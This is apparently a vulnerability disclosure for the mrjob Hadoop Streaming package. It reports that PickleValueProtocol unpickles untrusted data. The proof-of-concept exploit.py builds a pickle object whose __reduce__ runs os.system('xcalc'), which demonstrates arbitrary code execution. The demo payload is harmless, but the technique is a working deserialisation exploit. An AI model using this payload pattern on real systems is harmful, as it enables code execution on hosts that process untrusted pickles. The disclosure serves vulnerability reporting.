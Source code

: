 # Description
mrjob is a Python 2.7/3.4+ package that helps you write and run Hadoop Streaming jobs.
* **Vulnerability description**
    untrusted loading of data by the pickle.load function leading to Arbitrary code execution.

# Proof of Concept
Run exploit.py
```
import os
import pickle
#os.system('pip3 install mrjob')
from mrjob import protocol
#payload formation
class ArbitraryCode:
    def __reduce__(self):
        cmd = ('xcalc')
        return os.system, (cmd,)
dumps = pickle.dumps(ArbitraryCode())
protocol.PickleValueProtocol.read(dumps,dumps)
```
* `pip3 install mrjob`
* `python3 exploit.py`
